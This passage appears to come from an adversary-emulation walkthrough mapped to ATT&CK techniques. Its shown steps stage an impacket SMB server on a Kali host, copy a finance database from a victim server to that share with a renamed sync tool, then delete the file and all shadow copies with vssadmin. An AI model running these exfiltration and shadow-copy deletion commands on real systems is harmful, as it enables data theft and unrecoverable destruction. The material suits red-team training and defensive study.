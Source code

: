 ```bash
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

And finally we exfiltrate the files that we want:

**Step 3.5**
```PowerShell
[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

Having exfiltrated the files, let's delete them and all shadow copies using `vssadmin` on the system to prevent the files to be restored:

**Step 3.6**
```PowerShell
[FINSERVER:PowerShell] rm C:\Users\Administrator\Documents\finance.db
[FINSERVER:PowerShell] vssadmin.exe delete shadows /all
```
ATT&CK Techniques: `T1490`
